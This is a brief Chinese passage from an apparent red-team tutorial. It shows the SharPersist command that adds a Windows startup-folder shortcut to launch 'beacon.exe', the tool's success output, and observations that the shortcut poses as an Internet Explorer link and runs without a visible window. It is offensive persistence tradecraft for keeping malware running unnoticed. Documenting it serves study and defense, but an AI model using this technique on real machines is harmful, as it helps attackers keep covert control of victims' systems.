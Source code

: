SharPersist 创建启动项，-f 是指定文件名。

```bash
PS C:\Users\123\Desktop> C:\Users\123\Desktop\SharPersist.exe -t startupfolder -c "C:\Users\123\Desktop\beacon.exe" -f filename -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Users\123\Desktop\beacon.exe
[*] INFO: Command Args:
[*] INFO: File Name: filename


[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\123\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\filename.lnk
[*] INFO: SHA256 Hash of LNK file: 03202ADEF2ABA136221A5788A24EC22FB8010A5B802F879C8B12B73DADF17F6D
```

进入 `C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 发现是在当前用户启动目录下创建 IE 快捷方式，运行方式还是最小化，经过测试，常规、最小化、最大化都不会弹出命令行窗口。

![SharPersist 在启动目录创建的快捷方式.png](assets/1708583418-4300f57b829140ec15166f84576d6a63.png)

这个图标还可以在任务管理器中体现。

![SharPersist 快捷方式在任务管理器运行状态.png](assets/1708583418-e9735ce7aaa7b52157523f354ec48c3f.png)
